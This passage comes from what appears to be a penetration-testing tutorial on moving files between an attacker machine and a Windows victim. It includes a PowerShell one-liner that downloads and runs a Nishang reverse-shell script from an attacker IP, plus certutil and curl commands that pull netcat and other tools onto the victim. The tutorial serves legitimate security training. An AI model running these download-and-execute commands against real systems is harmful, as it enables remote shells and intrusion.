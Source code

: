 For example, if we got a foothold in a cmd.exe prompt and an in-place PowerShell upgrade was killing our shell, we could just use Nishang’s script again but this time append ‘**powershell.exe -c**‘ and we will be able to upgrade to PowerShell.

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://172.16.1.30/Invoke-PowerShellTcp.ps1')"
```

The most common technique for downloading files onto our victim from a cmd.exe prompt is by using **certutil.exe**.

Certutil’s primary functionality is to dump and display certification authority (CA) configuration information. However, when using the **\-f**, **\-split**, and **\-urlcache** switches, you can download a certificate from any URL. By extension, this functionality actually allows you to download any file!

With our HTTP server running we can use certutil to download files from our attacker machine, like so:

```
certutil.exe -urlcache -split -f "http://172.16.1.30/nc.exe" C:\temp\nc.exe
```

Windows 10 and Server 2019 have cURL built-in (curl.exe) and can be used to download files the same way it is used on Linux machines.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-130.png)

To download a file onto the victim using curl.exe, use the following:

```
curl.exe 172.16.1.30/wget.exe -o C:\temp\wget.exe
```

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-131.png)

> I purposely downloaded wget.exe to say yes… we can use wget.exe to download files as well. However, since its not built-in we would need to have established a way to transfer files already in order to get it onto our victim machine. While definitely worth mentioning, it is a bit redundant in my opinion since it cannot be a first option.

In addition to certutil.exe, there are many other built-in binaries that can be used to download files.

> If you are interested in upping your hack game by learning how to abuse built-in binaries and “living off the land”, check out the LOLBAS project **[here](https://lolbas-project.github.io/)**.

## **Uploading Files to Attacker’s HTTP Server**

## **Setting up the HTTP Server to Allow Uploads on the Attacker Machine**

Starting with the Apache web server, we can setup a way to upload files by crafting a PHP upload script.
